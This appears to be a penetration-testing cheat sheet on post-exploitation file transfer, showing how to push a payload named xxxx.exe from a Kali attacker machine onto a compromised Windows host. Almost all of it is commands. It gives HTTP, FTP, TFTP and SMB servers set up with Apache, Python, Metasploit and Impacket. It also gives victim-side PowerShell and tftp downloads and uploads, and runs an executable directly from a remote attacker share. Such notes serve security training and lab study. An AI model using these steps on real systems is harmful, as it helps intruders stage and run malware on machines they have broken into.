 ### Post Exploitation File transfer

#### File Transfer from kali to windows:
Here we will be transferring the `xxxx.exe` from kali to windows
In Kali, utilities like `curl` and `wget` will be exported by default hence, there will no need of covering file transfer methods for them

- [http](#http)
- [ftp](#ftp)
- [tftp](#tftp)
- [SMB](#smb)

##### HTTP Transferring <a name='http'></a>
*Setting UP the server :*
- Apache
- Python 
<h5>Apache:</h5>

```bash
cp xxxx.exe /var/www/html
service apache2 start

#The apache2 server's activity can be verfied with
─[kali@kali]─[~]$ service apache2 status
● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
     Active: active (running) since Sat 2020-08-01 04:28:17 EDT; 12s ago

```

<h5>Python:</h5>

```bash
# python2 uses the module SimpleHTTPServer specified with port
python -m SimpleHTTPServer 8080
# python3 uses the module http.server specified with port
python3 -m http.server 8080
# by deafult both uses port no. 8000 when left unspecified
```

*Receiving the file:*
- When GUI is available, fire up the browser and navigate to `http://iamserver:port/xxxx.exe` to download the file
- When only CLI is available, the webclient object is used

```powershell
powershell -c (new-object System.Net.WebClient).DownloadFile('http://iamserver:port/xxxx.exe','C:\download\path\xxxx.exe')
# If the abouve one fails
powershell.exe -command Invoke-WebRequest -Uri 'http://iamserver:port/xxxx.exe' -OutFile 'C:\download\path\xxxx.exe'
```

##### FTP Transferring <a name='ftp'></a>
- Windows has an inbuilt ftp client located in,`C:\Windows\System32\ftp.exe`

*Setting UP the server:*
- vsftpd
- Python
- Metasploit

<h5>vsftpd :</h5>

- Installing a fully functional `ftp` service in the kali machine

```bash
apt-get install vsftpd
#in the vsftpd.conf
local_enable = yes
write_enable = yes
chroot_list_enable=YES
chroot_list_file=/etc/vsftpd.chroot_list
anonymous_enable=yes
#end of editing config file

vsftpd start 
```

<h5>Python :</h5>

- Python uses the `pytftpd` module

```bash
apt-get install python-pytftpdlib
python -m pytftpd -p 21
```

<h5>Metasploit: </h5>

```bash
msfconsole
use auxilary/server/ftp
set FTPUSER wr3nch
set FTPPASS damnedsec
set FTPROOT directory/path
run
```

*Receiving the file:*
- As `ftp` is pre installed in windows, ftp login to obtain files

```bash
ftp 10.10.10.10
username anonymous
password anonymous
#set the transfer to binary mode
binary
#download file
get xxxx.exe
```

##### TFTP Transferring <a name='tftp'></a>

- `tftp` is installed by default in windows xp machine but is disabled in newer machines
- Through tftp, files can be downloaded in a single command

*Setting UP the server:*
- atftpd
- Metasploit

<h5>atftpd: </h5>
- Linux exports with built in tftp service

```bash
service atftpd start
```

<h5>Metasploit: </h5>

```bash
msfconsole
use auxilary/server/tftp
set TFTPROOT directory/path
run
```

*Receiving the file:*

- Enabling tftp as it is disabled by default in newer machines

```bash
pkgmgr /iu:"TFTP"
```

- tftp doesnt require any authentication
- If installed in the victim machine make use of it

```bash
#download a file
tftp -i 10.10.10.10 GET xxxx.exe

#upload a file
tftp -i 10.10.10.10 PUT xyz.exe
```

##### SMB Transferring <a name='smb'></a>

- SMB is exported builtin with windows

*Setting UP the server:*

- Linux
- Impacket

<h5>Linux: </h5>

```bash
#inastall dependencies
python-glade2 system-config-samba

# Configuring SAMBA
# edit the /etc/samba/smb.conf file
# change the workgroup= WORKGROUP to your network needs and tweak and save the conf file
# restart the samba
sudo service smbd restart
```
<h5>Impacket: </h5>

- The `smbserver.py` in the impackets will take care of every cofigurations and binds to port 445
```bash
python smbserver.py wr3nch directory/path
```
- This can be verified with `SMBCLIENT` which is pre-installed in LINUX
```bash
# connect to the specified IP with no password
# the name wr3nch given when starting the smbserver.py will be shown as the share name
smbclient -L 10.10.10.11 --no-pass
```

*Receiving the file:*

- The smb server is treated as a local share
- Just access it to obtain the files

```bash
# list the contents of the share
dir \\10.10.10.11\wr3nch

# copy files from ther server to the windows machine
copy \\10.10.10.11\wr3nch\xxxx.exe .

# executing files straight from the server 
\\10.10.10.11\wr3nch\xxxx.exe
```
